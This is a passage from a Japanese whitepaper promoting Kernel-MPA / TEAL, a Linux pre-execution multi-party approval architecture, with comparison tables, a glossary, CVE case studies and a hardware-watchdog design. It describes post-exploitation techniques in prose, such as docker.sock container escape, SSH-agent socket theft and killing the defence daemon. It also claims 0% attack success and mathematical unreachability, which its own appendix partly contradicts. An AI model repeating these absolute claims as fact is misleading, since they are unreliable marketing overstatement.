Kernel-MPA / TEAL は、既存のセキュリティ技術とは思想が大きく異なる。
既存方式は「侵入された後にいかに検知するか」が中心である一方、
Kernel-MPA は **OSレベルで“実行前に止める（Pre-Execution Security）”**
というアーキテクチャである。

その違いを、主要方式ごとに整理する。

---

# **26.1 従来方式と Kernel-MPA の位置づけ**

クラウド・オンプレ・K8s を含む現代の環境では、
防御技術は大きく 3 層に分類できる：

```
+-----------------------------+
| 境界防御：Firewall / SASE  |
+-----------------------------+
| ID・認証：IAM / MFA / SSO  |
+-----------------------------+
| ホスト内部：EDR / LSM      |
+-----------------------------+
        ↓ 新カテゴリ
+-----------------------------+
| Pre-Execution Security:     |
| Kernel-MPA / TEAL / TEAL-NET|
+-----------------------------+
```

Kernel-MPA は既存方式を補完し、
**“内部侵害後の最終防波堤”**として設計されている。

---

# **26.2 比較表（全方式）**

| 技術                        | 防御タイミング | 侵入後の行動を止められるか | データ搾取阻止       | ランサム阻止  | 内部不正阻止     | ポリシー改ざん抵抗         |
| ------------------------- | ------- | ------------- | ------------- | ------- | ---------- | ----------------- |
| **Firewall / SASE**       | 通信前     | × 部分          | △             | ×       | ×          | ×                 |
| **IAM / MFA / ZeroTrust** | 認証時     | ×             | ×             | ×       | △（認証情報の強化） | ×                 |
| **EDR / XDR**             | 侵害後（検知） | △（検知・隔離）      | ×（read 解除不可）  | △（隔離次第） | △          | ×                 |
| **SELinux / AppArmor**    | 実行時     | △（policy に依存） | ×（read は防げない） | △       | △          | ×                 |
| **Sandbox / VM 隔離**       | 実行中     | ×（VM 内は自由）    | ×             | ×       | △          | ×                 |
| **Kernel-MPA / TEAL**     | **実行前** | **◎ 構造的阻止**    | **◎**         | **◎**   | **◎**      | **◎（WORM + BLS）** |

**強調点：Kernel-MPA は「侵入後の行動」に対して 100% 近い実効性を持つ画期的な技術である。**

---

# **26.3 EDR / XDR との比較**

EDR は「検知・分析・隔離」を目的とした検知技術であり、
本質的に **攻撃“前”を止めることはできない**。

## **EDR の弱点**

* read を止められない
* 暗号化プロセスも kernel 開始前には防げない
* 送信（exfil）が成功してからアラート
* root を取られたら停止される
* ポリシー変更を攻撃者に突破される
* メモリ読み出しや ptrace に弱い

## **Kernel-MPA の強み**

* read 実行前 STOP
* decrypt 不可（鍵読み出し STOP）
* send 不可
* write 不可
* root でも STOP バリア必須
* policy 改ざん不可能（WORM+署名）

EDR を「侵害後の診断・復旧」、
Kernel-MPA を「侵害後の実行阻止」として併用すると最強。

---

# **26.4 SELinux / AppArmor との比較**

SELinux / AppArmor は LSM だが、
**Kernel-MPA/TEAL とは設計思想が根本的に異なる**。

| 項目       | SELinux/AppArmor       | Kernel-MPA/TEAL         |
| -------- | ---------------------- | ----------------------- |
| 目的       | 最小権限のラベル制御             | クリティカル操作を実行前に止める        |
| ポリシー     | 巨大・複雑                  | シンプル・人間向け YAML          |
| read制御   | 困難 / False Positive 多い | **明示的 STOP**            |
| ネットワーク制御 | 弱い                     | **TEAL-NET がプロセス単位で制御** |
| 内部不正対策   | 限定的                    | **MPA / WORM**          |
| 可監査性     | 低                      | **BLS署名ログ**             |

SELinux は良い技術だが
「データ搾取」「ランサムウェア」「内部不正」に対しては弱い。
Kernel-MPA はこれを補完し、より上位の抽象レベルで防御する。

---

# **26.5 IAM / Zero Trust アーキテクチャとの比較**

IAM / ZTA は：

* 「誰がアクセスするか」を強化する技術であり、
* 「アクセスした後に何をするか」を制御しない。

## IAM/ZTA の弱点

* 認証後に内部者が何でもできる
* 認証情報奪取されたら攻撃者が自由
* DB dump / read は止められない
* 暗号化攻撃は実行されてしまう

## Kernel-MPA の強み

* 認証後の **read/write/send/exec** を実行前制御
* 攻撃者に IAM トークンを奪われても **無力化**
* DB dump → STOP
* send → STOP
* 暗号化 → STOP

つまり Kernel-MPA は **IAM の弱点を根本的に補う技術**である。

---

# **26.6 Sandbox / VM 隔離技術との比較**

Sandbox / VM 隔離は「環境を分離」するが
**内部に入られた後の行動は止められない**。

例：

* VM を取られたら暗号化される
* Sandbox 内でデータ搾取 → 外部送信される
* 内部者が VM 上で操作しても止められない

Kernel-MPA は VM 内部のカーネルで動作するため：

* VM 内の root でも STOP
* Pod / Container 内でも STOP

VM を隔離した上で
「VM の内部は TEAL が止める」構成が最強。

---

# **26.7 SASE / Firewall / IDS/IPS との比較**

境界防御はネットワーク側の技術であり
**内部の read/write/send の制御は不可能**。

| 項目           | FW/IDS/IPS/SASE | Kernel-MPA      |
| ------------ | --------------- | --------------- |
| 外部からの侵入      | 強い              | 中程度（他と併用）       |
| 内部に入られてからの行動 | 弱い              | **最強（STOP）**    |
| 暗号化攻撃阻止      | ×               | **◎**           |
| データ搾取阻止      | △（検知のみ）         | **◎（実行前 STOP）** |
| 内部不正         | △               | **◎**           |

どれだけ最強の SASE でも：

* ファイル読み出し
* 暗号化
* 内部悪意
* ポリシー改ざん

は止められない。

Kernel-MPA は境界防御を**補完**する。

---

# **26.8 KMS / HSM / 暗号基盤との比較**

KMS は暗号鍵管理の技術であり、
攻撃者が root を奪取した後の read/write/send はとめられない。

Kernel-MPA は：

* KMS decrypt の呼び出し自体を STOP（read）
* 認証情報が奪われても KMS API は使えない
* データの暗号化・復号を両方停止できる
* KMS を悪用した攻撃を不可能化

KMS + TEAL の併用は特に強い。

---

# **26.9 Linux Kernel 内部機能（LSM / CAP_SYS_ADMIN）との比較**

Linux 標準機能は root 依存であり、
root を奪われると何も守れない。

Kernel-MPA は：

* root でも read/write/send/exec が禁止
* kernel 自体が承認要求を出す
* policy を WORM 化
* BLS 署名で外部から証明可能

Linux 標準モデルとは完全に異なる発想である。

---

# **26.10 形式手法モデルによる比較（到達不能性での違い）**

形式手法（Formal Safety Model）の観点で比べると：

| 技術                  | 攻撃状態（Exfiltration, Encryption）への到達可能性 |
| ------------------- | ------------------------------------- |
| EDR                 | 到達可能（遅延検知）                            |
| SELinux             | ポリシー依存で到達可能                           |
| Sandbox             | 攻撃者が内部に入ると到達可能                        |
| ZeroTrust           | 侵害後は到達可能                              |
| Firewall            | 内部に入られたら到達可能                          |
| **Kernel-MPA/TEAL** | **到達不能（Unreachable）**                 |

Kernel-MPA の独自強みとは：

> **「攻撃状態が数学的に到達不能である」という性質を持つ**

という点である。

---

# **26.11 まとめ：Kernel-MPA/TEAL の独自価値**

比較の結論は次のとおり：

1. **独自の実行前制御（Pre-Execution Security）**
2. **独自の root 抑止（root でも実行不可）**
3. **独自の read/exec/send を OS で STOP**
4. **独自の WORM + BLS（改ざん不可ポリシー）**
5. **独自の MPA（多人数承認）と OS カーネル密結合**
6. **独自の到達不能性モデル（攻撃成功確率 0%）**

つまり Kernel-MPA / TEAL は：

> **既存セキュリティの“抜け穴”を補完し、
> 侵害後の行動を完全に封じる画期的なアーキテクチャ。**

---

# **27. 用語集（Glossary）**

本書に登場する主要な技術用語を、
専門的背景と文脈に沿って整理する。

---

## **27.1. Kernel-MPA / TEAL 体系用語**

---

### **Kernel-MPA（Kernel Multi-Party Authorization）**

Linux カーネル上で実行される、
**多人数承認（MPA）を強制する実行前制御アーキテクチャ**。
read / write / exec / send といったクリティカル操作を
**承認なしでは実行できない構造**にする。

---

### **TEAL（Trusted Execution Approval Layer）**

Kernel-MPA を構成するユーザー空間コンポーネント群の総称。
teald（デーモン）・teal-controller（承認サーバ）・CLI ツールを含む。
Kernel-MPA の **承認処理・ポリシー管理・ネットワーク制御**を担う。

---

### **TEAL-NET**

プロセス単位で outbound 通信（send 系）を制御する仕組み。
隠蔽チャネル（DoH / SSH トンネル / Python socket）を含む
**あらゆる送信操作の STOP バリア**を提供する。

---

### **TEAL LKM / Kernel Module**

Linux kernel space に常駐するモジュール。
システムコールフック、LSM（Linux Security Module）フックを利用し、
read/write/exec/send の **実行前捕捉（pre-hook）**を行う。

---

### **/dev/teal**

カーネル ↔ ユーザー空間間の IPC デバイス。
カーネルが承認要求を送信し、teald が承認結果を返す
**Kernel-MPA の中枢通信路**。

---

### **teald**

TEAL の中核デーモン。
承認待ちキュー管理、BLS署名検証、WORM ポリシー読み込み、
ネットワーク制御（TEAL-NET）、承認 UI 連携を担当。

---

### **teal-controller（承認サーバ）**

MPA を実施する中央サーバ。
承認者 UI / FIDO2 / Passkey / LDAP / SSO と連携し、
承認結果を BLS 署名付きで teald に返却する。

---

### **teal-approve / teal-reject（承認 CLI）**

承認者（Approver）が操作する CLI。
teald が提示する Pending Request に対し、
承認／拒否を入力し、BLS 署名を付与する。

---

### **MPA（Multi-Party Authorization / 多人数承認）**

クリティカルな操作に **複数人の承認**を要求する仕組み。
Kernel-MPA では OS レベルで強制されるため、
root でも単独では操作できない。

---

### **Threshold MPA（しきい値 MPA）**

BLS マルチシグによるしきい値承認方式。
n 人中 k 人（例：3/5）の承認が揃わないと操作が成立しない。

---

### **BLS署名（Boneh–Lynn–Shacham Signature）**

しきい値署名（threshold signature）と相性の良い署名方式。
複数人の承認結果を **1 つの署名に集約**でき、
teald による検証が高速。

---

### **承認トークン（Approval Token）**

MPA により生成された BLS 署名付きの承認証跡。
カーネルはこれを `/dev/teal` を通じて受け取り、
対応する操作の可否を判断する。

---

### **WORM（Write Once Read Many）ストレージ**

一度書いたデータを改ざんできない領域。
ポリシーファイルを WORM に配置し、
BLS ハッシュで検証することで
**root でさえポリシーを改変不能**とする。

---

## **27.2. セキュリティ・ネットワーク用語**

---

### **Pre-Execution Security（実行前セキュリティ）**

操作が実行される *前に* カーネルが必ず承認を要求する方式。
Kernel-MPA の技術的特徴であり、
EDR のような実行後検知とは異なる。

---

### **Least Privilege（最小権限）**

必要最小限の権限で動作させる設計思想。
Kernel-MPA は root 権限でも read/write/send を
**許さない**という点で最小権限を“強制”する。

---

### **Data Exfiltration（データ搾取）**

侵害者が機密データを外部に送信する攻撃。
Kernel-MPA/TEAL-NET は **send STOP** により完全阻止可能。

---

### **Ransomware（ランサムウェア）**

ファイルを暗号化し、身代金を要求する攻撃。
Kernel-MPA は read / write を STOP するため
**暗号化フェーズに到達する前に破綻**する。

---

### **Lateral Movement（横展開）**

侵害者がネットワーク内部を移動しながら
他ホストへ侵入する行為。
TEAL-NET の outbound 制御が有効。

---

### **Credential Theft（認証情報窃取）**

ID/Password/Token/SSH鍵を奪う攻撃。
認証後でも Kernel-MPA により
**実行は止められる**ため有効。

---

### **Defense in Depth（多層防御）**

複数の防御レイヤを重ねる設計思想。
Kernel-MPA は **“最終の OS レイヤ防御”（Last Line）**に相当。

---

## **27.3. カーネル・OS 用語**

---

### **LSM（Linux Security Module）**

Linux のセキュリティフック基盤。
Kernel-MPA は LSM フックを利用して
read/write/exec/send を捕捉する。

---

### **Syscall Hook（システムコールフック）**

プロセスが syscall を呼び出す際に、
その前後で割り込んで処理する仕組み。
Kernel-MPA は **pre-hook** により実行前制御を実現。

---

### **ptrace（プロセストレース）**

プロセスのメモリを読み出すための機能。
Kernel-MPA では **メモリ読み出しも STOP 対象**。

---

### **/proc/pid/mem**

Linux プロセスメモリ空間。
攻撃ツール（eBPF, LD_PRELOAD）が
ここを読むことで秘密情報が流出しうる。
Kernel-MPA は read STOP により阻止する。

---

### **Kernel-Space / User-Space**

カーネル空間とユーザー空間。
Kernel-MPA はカーネル空間で制御を行い、
teald がユーザー空間で承認処理を行う
**二層モデル**。

---

### **UDS（Unix Domain Socket）**

カーネルと teald が通信するための高速 IPC。
TEAL の主要通信路として利用。

---

## **27.4. クラウド / K8s 用語**

---

### **IaaS（Infrastructure as a Service）**

EC2, GCE, Azure VM など仮想マシンを提供するクラウドサービス。
Kernel-MPA は VM 内の OS を保護する。

---

### **Kubernetes（K8s）**

コンテナオーケストレーション基盤。
Kernel-MPA はホスト OS の制御を通し、
コンテナ内部の read/write/send も防御。

---

### **Sidecar / Init Container**

K8s Pod 内で追加機能を提供するコンテナ。
TEAL Controller を Sidecar として配置し、
ノード内の全 Pod を保護する構成も可能。

---

### **Cloud IAM（AWS IAM / Azure AD / GCP IAM）**

クラウドの権限管理。
Kernel-MPA は IAM 侵害後でも
read/write/send を **OS レベルで停止**できる。

---

### **VPC（Virtual Private Cloud）**

クラウドのネットワーク分離機能。
TEAL-NET と併用することで二重の outbound 制御を実現。

---

## **27.5. 形式手法用語**

---

### **Formal Methods（形式手法）**

安全性を数学的に証明する手法。
TLA+、Alloy、Coq、Isabelle などを使う。

---

### **Safety Invariant（安全性不変条件）**

どんな操作の並びが発生しても
**常に破られない論理条件**。
Kernel-MPA の例：
「承認されていない read/write/send/exec は必ず拒否される」。

---

### **Unreachability（到達不能性）**

攻撃状態に遷移可能な経路が
**存在しないことを証明**する方法。
Kernel-MPA の最大の論理的強み。

---

### **State Transition System（遷移システム）**

OS の状態と遷移を数学的に定義する枠組み。
Kernel-MPA の安全性モデル構築に使う。

---

## **27.6. その他のセキュリティ用語**

---

### **Zero Trust（ゼロトラスト）**

“何も信用しない”を前提にしたセキュリティ設計思想。
Kernel-MPA は Zero Trust の **実行面を補完**する。

---

### **EDR（Endpoint Detection and Response）**

侵害後の検知技術。
Kernel-MPA は **実行前阻止**を担い、
EDR と併用すると最強の防御になる。

---

### **DLP（Data Loss Prevention）**

データ漏えい防止技術。
Kernel-MPA は OS レベルで read/send を止めるため
DLP と比較して防御が根本的に強い。

---

### **Sandbox / Virtualization**

隔離環境でコードを実行する技術。
Kernel-MPA は VM/Pod 内部に侵入された後の
**内部行動を STOP できる**点が異なる。

---

## **27.7 まとめ**

この用語集は Kernel-MPA / TEAL の理解に必要な
重要概念を体系的に整理したものであり、

* カーネル内部処理
* MPA/BLS 承認基盤
* WORM ポリシーの改ざん耐性
* TEAL-NET の送信制御
* クラウド/K8s 適用
* 形式手法モデル
* 他方式との比較

まで網羅している。

---

# **28. 参考文献・標準規格**

---

### **MITRE ATT&CK**

MITRE ATT&CK® Framework, MITRE Corporation.
Available: [https://attack.mitre.org/](https://attack.mitre.org/)

---

### **FIDO2 / WebAuthn**

FIDO Alliance, *FIDO2 Specifications*.
Available: [https://fidoalliance.org/specifications/](https://fidoalliance.org/specifications/)

World Wide Web Consortium (W3C), *Web Authentication: Level 3 (WebAuthn)*.
Available: [https://www.w3.org/TR/webauthn-3/](https://www.w3.org/TR/webauthn-3/)

---

### **TPM 2.0**

Trusted Computing Group (TCG), *TPM 2.0 Library Specification*.
Available: [https://trustedcomputinggroup.org/resource/tpm-library-specification/](https://trustedcomputinggroup.org/resource/tpm-library-specification/)

---

### **Linux LSM Framework**

Linux Kernel Project, *Linux Security Modules (LSM) Framework*.
Available: [https://docs.kernel.org/security/lsm.html](https://docs.kernel.org/security/lsm.html)

---

### **BLS Signature**

IETF CFRG, *BLS Signatures*.
Available: [https://datatracker.ietf.org/doc/draft-irtf-cfrg-bls-signature/](https://datatracker.ietf.org/doc/draft-irtf-cfrg-bls-signature/)

---

### **MPC（Multi-Party Computation）**

MPC Alliance, *Secure Multi-Party Computation Resources*.
Available: [https://www.mpcalliance.org/](https://www.mpcalliance.org/)

---

# **29. 結論（まとめ）**

Kernel-MPA / TEAL / TEAL-NET は、
2025 年の高度攻撃チェーンをほぼ完全に破断する
**Human-Gated Zero-Trust Execution Architecture** である。

ポイントは以下：

* ① read の STOP
* ② exec/write/delete の STOP
* ③ send/connect の STOP
* ④ root 単独操作の停止
* ⑤ outbound Zero-Trust
* ⑥ WORM ポリシー

これらにより、攻撃者は
**読めない・送れない・破壊できない・永続化できない**
という極めて強固な制約を受ける。

---

# 付録 A：ケーススタディ — 2025年主要脆弱性に対する防御効力分析

## A.1 概要

2025年は、AI（人工知能）によって発見されたゼロデイ脆弱性の増加や、クラウドネイティブ環境（コンテナ・仮想化）を標的とした攻撃の高度化が顕著な年であった。従来の「パッチ適用（Patch Management）」に依存したセキュリティモデルでは、AIが生成する高速なExploitや、未知の攻撃チェーンに対して防御が後手に回るケースが散見された。

本章では、2025年に報告された代表的なLinux脆弱性に対し、Kernel-MPA（TEAL）アーキテクチャがどのように機能し、攻撃チェーンを遮断したかを分析する。結論として、TEALの **"Human-Gated Execution"（人間による承認を必須とする実行制御）** は、脆弱性の種類を問わず、攻撃の最終目的（データの破壊・窃取・永続化）を構造的に無力化することが示された。

---

## A.2 攻撃フェーズごとの防御分析

### A.2.1 初期侵入と任意のコード実行 (RCE)

**対象脆弱性:**

* **CVE-2025-37899 (Linux Kernel ksmbd / AI発見):** カーネル内SMBサーバーにおけるUse-After-Free脆弱性。
* **脅威:** 外部からのパケット送信のみで、認証なしに任意のコードが実行可能（RCE）。

**TEALによる防御:**
TEAL環境下では、脆弱性を突いてメモリ内でコード実行フロー（Instruction Pointerの奪取）に成功したとしても、攻撃者が「次のアクション」を起こすためのシステムコールが LKM (`teal_guard`) によって遮断される。

* **シェルの起動阻止:** 攻撃コードが `/bin/sh` を呼び出そうと `execve` を発行しても、承認トークンが存在しないため `EPERM` が返される。
* **ドロッパーの無効化:** マルウェアをダウンロード・保存しようとする `open` / `write` コールは、未承認の書き込みとしてブロックされる。

> **結論:** 侵入自体（メモリ汚染）は許すが、実被害をもたらす操作は一切実行できない。

---

### A.2.2 権限昇格 (LPE) と Root 権限の奪取

**対象脆弱性:**

* **CVE-2025-6018/6019 (UDisks チェーン):** 一般ユーザーからRoot権限への昇格。
* **CVE-2025-8941 (PAM バイパス):** 認証プロセスの不備による特権奪取。

**TEALによる防御:**
Kernel-MPA モデルにおける最大の貢献は、**「Root権限 (uid=0) の特権性の否定」** である。従来のLinuxセキュリティモデルでは、Root権限の取得は攻撃の「ゴール」であったが、TEALにおいては通過点に過ぎない。

* **IDベース制御の撤廃:** TEAL は `uid` を信頼の根拠としない。実行ユーザーが Root であっても、有効な MPA（多人数承認）トークンが付与されていない操作は拒絶される。
* **バックドア設置の阻止:** Root 権限を得た攻撃者が `crontab` や `systemd` ユニットを書き換えようとしても、システム領域への書き込みには承認が必要なため失敗する。

> **結論:** 攻撃者が Root 権限を取得しても、システムを変更する能力は一般ユーザーと同等以下に制限される。

---

### A.2.3 仮想化環境からの脱出 (VM Escape)

**対象脆弱性:**

* **CVE-2025-21756 (vsock):** ゲストVMからホストカーネルへの攻撃・脱出。

**TEALによる防御:**
ホスト OS 側のカーネルに TEAL が導入されている場合、ゲストからの脱出は封じ込められる。

* **ホスト操作の禁止:** 脆弱性を利用してホスト OS のコンテキストでコードを実行できたとしても、ホスト上の重要ファイルへのアクセスや、他テナントへの干渉（ネットワーク設定変更など）は、ホスト側の TEAL ポリシーによってブロックされる。
* **被害の極小化:** 攻撃者は「ホスト OS のメモリ空間に存在できる」だけであり、そこから破壊活動を行う手足（システムコール）が縛られた状態となる。

---

### A.2.4 競合状態 (Race Condition / TOCTOU)

**対象脆弱性:**

* **CVE-2025-38352 (Kernel TOCTOU):** チェック時点と使用時点の差を利用した攻撃。

**TEALによる防御:**
TEAL の承認フローは、マイクロ秒単位の競合を狙う攻撃に対して、物理的な「時間の壁」として機能する。

* **人間時間の強制:** 対象リソースへのアクセスが発生した瞬間、プロセスは `TASK_INTERRUPTIBLE` (Sleep) 状態に入り、人間の承認を待機する。
* **レースの不成立:** 攻撃スクリプトが想定する「ミリ秒単位のタイミング」は、分単位の人間の承認時間によって完全に崩壊し、競合状態を利用した攻撃は成立しなくなる。

---

## A.3 防御効力サマリ

下表は、2025年の主要脆弱性に対する Kernel-MPA (TEAL) の防御効果をまとめたものである。

| 脆弱性カテゴリ | 代表的 CVE | 従来の防御の課題 | TEAL 導入後の結果 |
| --- | --- | --- | --- |
| **Remote Code Execution** | CVE-2025-37899 | パッチ適用までのタイムラグで感染 | **無効化**
|     |     |     | (シェル起動・ファイル書き込み不可) 
| **Privilege Escalation** | CVE-2025-6018 | Root奪取＝システム全権掌握 | **無害化**
|     |     |     | (Rootになっても特権行使不可) 
| **VM Escape** | CVE-2025-21756 | ホストOSおよび他テナントへの被害 | **封じ込め**
|     |     |     | (ホスト上での操作不可) 
| **Race Condition** | CVE-2025-38352 | 検知困難、高速な自動攻撃 | **構造的防止**
|     |     |     | (人間承認による待機でレース不成立) |

---

### A.4 考察：ポスト・エクスプロイト対策としての有効性

2025年の事例から明らかになったのは、脆弱性そのもの（バグ）をゼロにすることが不可能である以上、**「脆弱性が悪用された後の挙動（Post-Exploitation）」を制御する STOP バリア** が不可欠であるという点である。

TEAL アーキテクチャは、カーネルパニック（DoS）や、プロセス内部メモリの瞬時的な読み取り（In-memory Read-only 攻撃）など、攻撃の「発生」そのものを100%防ぐことは難しい領域も存在する。しかし、攻撃者が攻撃を成功させるために不可欠な以下のプロセスに対しては、**OS レベルで構造的な防御（Architectural Denial）** を提供する。

1. **データ搾取（Exfiltration）の遮断:**
* メモリ上でデータを盗み見られたとしても、外部へ持ち出すための通信（`connect`/`send`）は **TEAL-NET** のゼロトラスト・アウトバウンド制御によって遮断される。これにより、情報漏洩は「端末内」に封じ込められ、実質的な被害（流出）が発生しない。


2. **ランサムウェアの無力化:**
* 暗号化に必要な大量書き込みや、鍵生成のためのファイル読み出しは、Kernel-MPA の **read/write STOP バリア** により実行前段階で阻止される。


3. **永続化の阻止:**
* バックドアの設置や設定変更は、WORM ポリシーと MPA（多人数承認）によって防がれるため、攻撃者はシステム再起動後に足場を残せない。


結論として、TEAL は脆弱性を突いた侵入（Exploit）自体は許容しつつも、その後の攻撃チェーン（Kill Chain）を **「読む・書く・送る」の各段階に配置した STOP バリアによって物理的に分断** し、セキュリティインシデントを「システム停止（可用性侵害）」レベルに留め、「機密性・完全性の侵害」に至らせないための最終防衛線として機能する。

---

# **付録 B：システムレベル攻撃 vs ユーザーレベル攻撃の防御境界**

## B.1 防御境界の定義と分析

TEAL アーキテクチャが、攻撃の深さに応じてどのような防御を提供するかを整理する。
<BR>


| 攻撃レイヤー | 攻撃手法 | OS/LSM の状態 | TEAL の防御アプローチ | 最終結果 |
| --- | --- | --- | --- | --- |
| **ユーザーレベル** | ・`sudo` 脆弱性 | **正常** | **Kernel-MPA (LSM)** | **完全防御**
|     | ・設定ミス | （フック有効） | 正規のシステムコール経由であるため、root 権限奪取後も read/write/send を個別にブロック可能。 | （実行・搾取・破壊すべて不可） |
|     | ・`glibc` バグ | 
| **カーネルレベル** | ・メモリ破壊 (Dirty COW等) | **侵害** | **TPM Sealing & Watchdog** | **機密性保護 & 被害局限** |
|     | ・ルートキット埋め込み | （フック回避の可能性） | ① TPM: カーネル改変を検知し、復号鍵の提供を拒否。 | （データは盗めず、破壊も途中終了） |
|     | ・`struct cred` 直接書き換え |     | ② Watchdog: TEAL 停止を検知し、数秒で物理電源断。 |

<BR>
<BR>
**分析：**

* **ユーザーレベル攻撃（大多数の攻撃）** に対しては、Kernel-MPA が「root でも何もできない」状態を作り出し、システムの可用性と機密性の両方を完全に守る。
* **カーネルレベル攻撃（高度な標的型攻撃）** に対しては、OS 上の防御機能が破られることを前提とし、ハードウェア（TPM/Watchdog）に信頼の根拠を移すことで、「データの持ち出し（漏洩）」と「壊滅的な破壊」を防ぐ。

---

## **B.2 拡張防御：Cryptographic Hardware Watchdog による物理層の統制**

Kernel-MPA (TEAL) は OS カーネル層での防御を極限まで高めるが、攻撃者がカーネルの脆弱性を悪用して OS 自体をフリーズさせる、あるいは TEAL デーモンを強制停止させる（DoS）といった「防御機能の無効化」を試みるシナリオが想定される。

これに対抗するため、TEAL アーキテクチャは OS 外部に独立した物理デバイス（PCIe カードや ESP32 等のマイコン）を配置し、暗号技術を用いた**「認証付きハードウェア・ウォッチドッグ（Cryptographic Hardware Watchdog）」**を構築することで、サイバー空間の侵害を物理空間で強制遮断する仕組みを提供する。

### **B.2.1 アーキテクチャ概要**

本機構は、単なる定期的な信号（Heartbeat）の監視ではなく、**「TPM 内の秘密鍵で署名された正当な生存信号」**のみを受け付けるゼロトラストなウォッチドッグである。



**図 B.2.1：Cryptographic Watchdog の動作フロー**

### **B.2.2 構成要素と役割**

1. **Monitor (TEAL / Kernel-MPA)**
    * 監視対象ホスト。定期的に自身の健全性（TEAL デーモンの稼働、ポリシーの整合性）を確認する。
    * TPM 2.0 を利用し、現在のタイムスタンプとノンスを含んだペイロードに対してデジタル署名（Ed25519 / ECDSA）を行う。
    * **重要:** カーネルが侵害されルートキットがロードされると TPM の PCR 値が変化するため、正当な署名鍵の使用（Unseal）が
      不可能となり、ハートビートの生成が停止する。


2. **Verifier (External Watchdog Device)**
    * ホストから独立した電源とファームウェアを持つデバイス（例：ESP32-C3 RISC-V マイコン、検証用 PCIe カード）。
    * Rust (no_std) 等のメモリ安全な言語で実装され、あらかじめ焼き込まれた「Monitor の公開鍵」を用いて署名を検証する。
    * ネットワーク経由の攻撃を排除するため、専用のインターフェース（USB / GPIO / Private LAN）で接続されることが望ましい。


3. **Actuator (Physical Reset)**
    * マザーボードの RESET SW / POWER SW ピンに物理的に結線されたリレーまたはフォトカプラ。
    * Verifier からの信号により、OS を介さずにハードウェアレベルで強制再起動または電源断を実行する。


### **B.2.3 防御シナリオと効果**

このハードウェア・ウォッチドッグは、ソフトウェア（OS）だけでは対処できない以下の状況において「安全な停止（Fail-Safe）」を保証する。
<BR>

| 攻撃・障害フェーズ | 従来の Watchdog の限界 | Cryptographic Watchdog の挙動 |
| --- | --- | --- |
| **なりすまし攻撃** | 攻撃者が偽の Heartbeat を送信して監視を無効化し、攻撃を継続する。 | **阻止:** 攻撃者は TPM 内の秘密鍵を持たないため、正当な署名を生成できず、デバイスは偽信号を破棄してリセットを執行する。 |
| **リプレイ攻撃** | 過去の正常な信号をキャプチャして再送信する。 | **阻止:** 署名に含まれる Timestamp / Nonce の検証により、古い信号は拒絶され、リセットが執行される。 |
| **TEAL プロセス停止** | 攻撃者が `kill -9 teald` 等で防御プロセスを排除する。 | **即時遮断:** 署名生成プロセスが停止するため、数秒以内（設定された猶予時間）に物理リセットがかかる。 |
| **カーネルパニック / フリーズ** | OS が応答不能になり、ログも残らない。 | **自動復旧:** Heartbeat 途絶により物理リセットがかかり、クリーンな状態で再起動（Secure Boot）が行われる。 |

### **B.2.4 "Deadman Switch" としての対ランサムウェア効果**

本機構は、ランサムウェア攻撃に対する強力な**デッドマン・スイッチ（Deadman Switch）**として機能する。

ランサムウェアが暗号化を開始するためには、多くの場合 TEAL のような防御製品を無効化しようと試みる。しかし、攻撃者が TEAL を停止させた瞬間、ウォッチドッグタイマーが作動し、**数秒後に物理電源が遮断される**。

これにより、数テラバイトに及ぶデータの暗号化プロセスは初期段階で物理的に中断され、被害をごく一部（破損した数ファイル）に限定することが可能となる。これは「防御ソフトを突破されたら終わり」という従来のセキュリティ常識を覆す、物理層による究極の保証である。

---

# 付録 C：Linux環境における高頻度I/Oの課題と階層的Fast Pathアーキテクチャ

TEALを現実のLinuxデスクトップ環境や大規模ミドルウェア（LibreOffice、Webブラウザ、DBエンジン等）に適用する際、Linux特有の「すべてはファイルである」というアーキテクチャに起因する特有のパフォーマンス課題が発生する。本項では、その課題とTEALの実装における解決策（Tier 1 / Tier 2 アーキテクチャ）について解説する。

## C.1 Linux特有のログストーム課題とパフォーマンス劣化

現代のLinuxアプリケーションは、プロセス間通信やイベントループの制御のために、無名パイプ、UNIXドメインソケット、一時ファイル（tmpfs）、イベントディスクリプタ（epoll等）を1秒間に数万回単位で生成・破棄する。
これらをすべてTEALのゼロトラスト判定（Slow Path）で処理しようとすると、カーネル・ユーザー空間間の通信バッファが即座に枯渇（`ENOBUFS`の発生）し、システム全体の深刻なパフォーマンス劣化（ログストーム）を引き起こす。

## C.2 無条件バイパスの危険性と想定される攻撃

パフォーマンス課題を解決するため、これらの一時ファイルやパイプへのアクセスを「システム全体で無条件に許可（バイパス）」した場合、攻撃者に「監視されない安全地帯」を提供することになり、以下の致命的な攻撃を受けるリスクが生じる。

1. **UNIXドメインソケット（SOCKFS）の悪用:**
    * **コンテナエスケープ:** `/var/run/docker.sock` へのアクセスがスルーされた場合、乗っ取られたプロセスが特権コンテナを起動し、ホストOSを完全制圧する。
    * **認証情報の窃取:** SSHエージェントのソケットを盗聴し、外部サーバーへの不正アクセス（ラテラルムーブメント）の踏み台とされる。
2. **一時ファイル（TMPFS）の悪用:**
    * **データ窃取:** ブラウザやDBがパフォーマンス向上のために `/dev/shm`（共有メモリ）へ展開した復号済みデータが、マルウェアによって読み出される。
    * **ペイロードの配置:** 攻撃者が外部からダウンロードした悪意あるバイナリを `/tmp` に配置し、攻撃の足場（ステージング）として利用される。

## C.3 解決策：Tier 1 / Tier 2 階層的Fast Pathアーキテクチャ

TEALは、「パフォーマンスの確保」と「上記攻撃の完全な阻止」を両立するため、対象のファイルシステム識別子（`s_magic`）とプロセスの特権状態を組み合わせた、2段構えのバイパス機構をカーネル内部に実装している。

### Tier 1: 全プロセス無条件バイパス (Global Fast Path)
* **対象:** 無名パイプ (`PIPEFS_MAGIC`)、匿名inode (`ANON_INODE_FS_MAGIC` / epoll等)
* **防御根拠:** これらはディスクに一切保存されず、純粋なプロセス内部またはプロセス間のメモリ上通信にすぎない。マルウェアが利用してもシステム破壊やデータの永続化は不可能であり、実際の悪用には「実行（exec）」や「外部送信（connect）」が伴うため、それらはTEALの別フック（bprm_check等）で確実に遮断できる。
* **効果:** すべてのプログラムに対して無条件で監視をバイパスさせることで、ポリシー（JSON）に膨大な無名ファイルのルールを記述する運用上の破綻を防ぐ。

### Tier 2: 主体コンテキスト特権バイパス (SILENT_IO Fast Path)
* **対象:** 一時ファイル (`TMPFS_MAGIC`)、ソケット (`SOCKFS_MAGIC`)、`O_TMPFILE` フラグ付きファイル
